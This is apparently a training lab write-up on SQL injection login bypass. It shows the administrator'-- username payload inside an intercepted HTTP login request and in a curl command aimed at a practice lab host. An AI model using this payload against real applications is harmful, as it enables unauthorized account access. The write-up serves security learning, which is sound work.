

## SQL Injection

This lab contains a SQL injection vulnerability in the login function.

To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user.


### Lab: SQL injection vulnerability allowing login bypass

```
Use Burp Suite to intercept and modify the login request.
Modify the username parameter, giving it the value: administrator'--
```


```bash
POST /login HTTP/2
Host: 0a7e00aa0421f3fe8062d07d00dd006b.web-security-academy.net
Cookie: session=V1HfU0aOKM8QTRoRGGK2vGikq9WmbVpJ
Content-Length: 79
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: es-ES,es;q=0.9
Origin: https://0a7e00aa0421f3fe8062d07d00dd006b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a7e00aa0421f3fe8062d07d00dd006b.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

csrf=eDcRT7GQhbS3KUE6dbfOC2G9wJWpPgvK&username=administrator%27--&password=pass
```

curl command:
```bash
curl --path-as-is -i -s -k -X $'POST' \
    -H $'Host: 0a7e00aa0421f3fe8062d07d00dd006b.web-security-academy.net' -H $'Content-Length: 79' -H $'Cache-Control: max-age=0' -H $'Sec-Ch-Ua: \"Chromium\";v=\"135\", \"Not-A.Brand\";v=\"8\"' -H $'Sec-Ch-Ua-Mobile: ?0' -H $'Sec-Ch-Ua-Platform: \"Linux\"' -H $'Accept-Language: es-ES,es;q=0.9' -H $'Origin: https://0a7e00aa0421f3fe8062d07d00dd006b.web-security-academy.net' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Upgrade-Insecure-Requests: 1' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' -H $'Sec-Fetch-Site: same-origin' -H $'Sec-Fetch-Mode: navigate' -H $'Sec-Fetch-User: ?1' -H $'Sec-Fetch-Dest: document' -H $'Referer: https://0a7e00aa0421f3fe8062d07d00dd006b.web-security-academy.net/login' -H $'Accept-Encoding: gzip, deflate, br' -H $'Priority: u=0, i' \
    -b $'session=V1HfU0aOKM8QTRoRGGK2vGikq9WmbVpJ' \
    --data-binary $'csrf=eDcRT7GQhbS3KUE6dbfOC2G9wJWpPgvK&username=administrator%27--&password=pass' \
    $'https://0a7e00aa0421f3fe8062d07d00dd006b.web-security-academy.net/login'
```

***
[Index](../index.html)